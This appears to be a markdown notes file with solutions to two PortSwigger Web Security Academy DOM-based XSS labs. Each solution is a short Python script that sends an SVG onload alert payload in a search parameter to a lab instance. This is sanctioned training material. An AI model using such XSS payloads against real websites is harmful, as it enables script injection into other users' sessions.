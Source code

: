 # Portswigger

## XSS

### [DOM-based XSS](https://portswigger.net/web-security/cross-site-scripting/dom-based)

#### Lab3

```python
import requests

url = "https://0a1e0067044d34a8c2a44bb8000700ed.web-security-academy.net"

session = requests.Session()

params = {
    "search" : f'"><svg/onload=alert(1)>'
}
r = session.get(url = url , params= params)

if "Congratulations, you solved the lab!" in r.text:
    print("solved")
```

#### lab4

```python
import requests

url = "https://0a9900f9047f2860c1167170009f00d1.web-security-academy.net/"

session = requests.Session()

params = {
    "search" : f'<svg/onload=alert(1)>'
}
r = session.get(url = url , params= params)

if "Congratulations, you solved the lab!" in r.text:
    print("solved")
```
